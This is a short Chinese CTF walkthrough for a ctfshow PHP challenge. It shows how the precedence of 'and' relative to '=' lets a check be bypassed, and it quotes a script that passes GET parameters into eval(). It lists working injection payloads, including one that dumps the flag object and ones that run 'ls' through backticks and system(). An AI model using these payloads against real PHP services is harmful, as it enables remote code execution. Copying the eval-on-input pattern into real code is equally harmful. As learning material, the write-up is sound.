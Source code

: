 ```Plain Text
&&与||的优先级高于=

```
\=的优先级高于and与or 

![image](images/ELmsQ9JhvL2XJHDJoE2r2wlZFMsK27sUMpPOyXVcq4g.png)

 **列子**

```Plain Text
<?php 

highlight_file(__FILE__); 
include("ctfshow.php"); 
//flag in class ctfshow; 
$ctfshow = new ctfshow(); 
$v1=$_GET['v1']; 
$v2=$_GET['v2']; 
$v3=$_GET['v3']; 
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3); 
if($v0){<!-- --> 
    if(!preg_match("/\;/", $v2)){<!-- --> 
        if(preg_match("/\;/", $v3)){<!-- --> 
            eval("$v2('ctfshow')$v3"); // eval() 函数把字符串按照 PHP 代码来计算。  


```
`既然如此，$v1为数字即可让$v0为True 优先级问题`

V2不能有分号， V3必须有一个分号 `eval("$v2('ctfshow')$v3") //意思是显示ctfshow 不是flag.php`

```Plain Text
payload:v1=1&v2=var_dump($ctfshow)/*&v3=*/;   看懂  //利用注释符号/**/

直接输出$ctfshow;构造出 var_dump($ctfshow);
payload:v1=1&v2=var_dump($ctfshow)/*&v3=*/;


```
```Plain Text
因为过滤的字符比较少，所以可以直接执行命令。
方法不固定，在此聚两个例子
v1=1&v2=?><?php echo `ls`?>/*&v3=;*/
v1=1&v2=-system('ls')-&v3=-1;


```
还实行一句话 
